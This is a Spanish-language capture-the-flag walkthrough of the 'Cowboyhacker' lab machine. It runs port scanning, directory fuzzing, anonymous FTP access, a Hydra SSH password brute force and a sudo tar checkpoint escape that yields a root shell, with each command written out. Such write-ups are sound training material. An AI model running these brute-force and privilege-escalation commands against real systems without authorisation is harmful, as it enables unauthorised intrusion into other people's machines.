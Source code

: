 # Cowboyhacker

## Enumeración de puertos

Para empezar, ejecutaremos el siguiente escaneo para la enumeración de puertos:

```bash
nmap <ipdelamaquina>
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled.png)

ssh port: 22

ftp port: 21

http port: 80

## Directory fuzzing

Vamos a intentar acceder a algún directorio oculto de la máquina haciendo fuerza bruta, mediante un diccionario:

```bash
gobuster dir -u [http://<ip_de_la_maquina>](http://%3Cip_de_la_maquina%3E/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%201.png)

**Directorios encontrados con éxito:**

/images

/server-status

## FTP

Sabemos que FTP es un servicio bastante vulnerable.

Intentaremos acceder a él mediante credenciales comunes:

anonymous:anonymous

ftp:ftp

anonymous:

Conseguimos acceso al ftp de forma anónima, con el usuario “anonymous":

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%202.png)

Una vez tenemos acceso, listamos el directorio raíz, para ver el contenido:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%203.png)

Una vez hecho esto, descargamos los ficheros de texto:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%204.png)

Y examinamos su contenido:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%205.png)

## SSH

### Ganando acceso a SSH

Intentamos acceder a SSH mediante fuerza bruta con el diccionario proporcionado por el fichero locks.txt (obtenido previamente del servidor FTP).

Comando para hacer fuerta bruta al login:

```bash
hydra -l lin -P locks.txt <ip_de_la_maquina> ssh
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%206.png)

Accedemos por SSH al usuario lin:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%207.png)

Una vez tengamos acceso al SSH daríamos paso a una escalada de privilegios, porque tenemos que conseguir el fichero root.txt. Lo cual puede ser una pista de dónde se debe encontrar este fichero.

## Escalada de privilegios

Escalación de privilegios en un sistema linux:

1. Averiguamos qué comandos puede usar el usuario actual como root:

```bash
sudo -l
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%208.png)

2. Ahora sabemos que puede ejecutar “tar” como aministrador.

3. Buscamos un script de tar en [gtfobins](https://gtfobins.github.io/).

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%209.png)

4. Ejecutamos el comando:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

5. Una vez hecho esto, tenemos acceso a una shell donde nos podemos convertir en administradores:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%2010.png)

6. Hecho esto, es cuestión de buscar el root.txt:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%2011.png)

## Resumen del documento:

1. **Ports:**

> SSH port: 22
> 

> FTPport: 21
> 

> HTTP port: 80
> 

2. **FTP login:**

user: anonymous

pwd: 

3. **Directory fuzzing:**

```bash
gobuster dir -u [http://](http://10.10.63.5/)<ipdelamaquina>-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Directorios obtenidos:**

> /images
> 

> /server-status
> 

4. **Nombre del escritor de task.txt (ver en archivo)**

5. **SSH login**

5.1 **ssh bruteforce command:**

user: lin

password: ******************

5.2 **user.txt** **flag**

6. **Privilege escalation**:

6.1 **Comandos que lin puede usar como root (**sudo -l**):**

> /bin/tar
> 

6.2 **Comando tar usado para obtener una shell con privilegios:**

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

6.3 **Usando una shell como usuario root**

```bash
sudo su 
```

1. **Buscamos el archivo root.txt**

  Buscamos en el directorio del usuario root una vez somos root

```bash
cd ~
```